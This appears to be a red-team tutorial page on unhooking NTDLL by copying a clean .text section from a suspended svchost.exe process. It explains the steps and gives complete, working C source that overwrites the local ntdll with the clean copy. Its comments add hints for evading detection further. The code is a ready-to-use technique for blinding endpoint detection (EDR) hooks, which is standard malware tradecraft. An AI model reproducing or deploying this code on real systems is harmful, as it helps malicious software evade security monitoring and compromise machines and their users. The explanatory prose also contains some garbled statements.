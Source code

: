# NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll by fetching the local ntdll address (imported DLL's have the same VA values between processes)PAGE\_EXECUTE\_READWRITE
* Allocate Heap and copy .text from remote to local using SizOfCode found in OptionalHeader
* VirtualProtect local ntdll with RW & Copy memory from heap to ntdll base address.

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```c

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```



### Full Code

{% code fullWidth="true" %}
```c
#include <windows.h>
#include <winternl.h>
#include <wchar.h>
#include <stdio.h>

#define NTDLL L"NTDLL"

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}


int wmain() {

    // Create process
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    PROCESS_BASIC_INFORMATION pbi = {0};

    // Create Suspended Process
    if (!CreateSuspendedProcess(&si, &pi)) {
        return -1;
    }

    // Get Local NTDLL Base Address
    PVOID pNtdllBaseAddress = FetchLocalNtdllAddress();

    wprintf(L"[+] NTDLL Base Address %p\n", pNtdllBaseAddress);
    wprintf(L"[+] Suspended PIDS: %d\n", pi.dwProcessId);


    // Parse Local PE Headers
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pNtdllBaseAddress;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        wprintf(L"[!] DOS Signature Failed\n");
        return -1;
    }

    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pNtdllBaseAddress + pDosHeader->e_lfanew);

    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        wprintf(L"[!] NT Signature Failed\n ");
        return -1;
    }

    PIMAGE_OPTIONAL_HEADER pImgOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    // Get Size of .Text Section
    DWORD dwNtdllTextSize = pImgOptionalHeader->SizeOfCode;
    // Get Base address of .Text Section
    PVOID pAddressOfText = pNtdllBaseAddress + pImgOptionalHeader->BaseOfCode;


    wprintf(L"[+] Size of NTDLL .text section %d\n", dwNtdllTextSize);

    // Allocate Heap
    PVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwNtdllTextSize);

    // Copy Remote .Text Section to Allocated Buffer
    size_t ulBytesWritten = 0;
    ReadProcessMemory(pi.hProcess, pAddressOfText, lpBuffer, dwNtdllTextSize,  &ulBytesWritten);

    wprintf(L"[+] Wrote %d bytes to: %p\n", ulBytesWritten, lpBuffer);

    // Change permissions of local NTDLL
    DWORD dwOldPermissions;
    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[1] Failed %d", GetLastError() );
        return -1;
    }

    // This is just a POC, to avoid evasion properly needs more.
    // Example: Breaking apart copy into seperate spread out functions

    memcpy(pAddressOfText, lpBuffer, dwNtdllTextSize);

    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, dwOldPermissions, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[2] Failed %d", GetLastError() );
        return -1;
    }

    getchar();
    return 0;
}

```
{% endcode %}
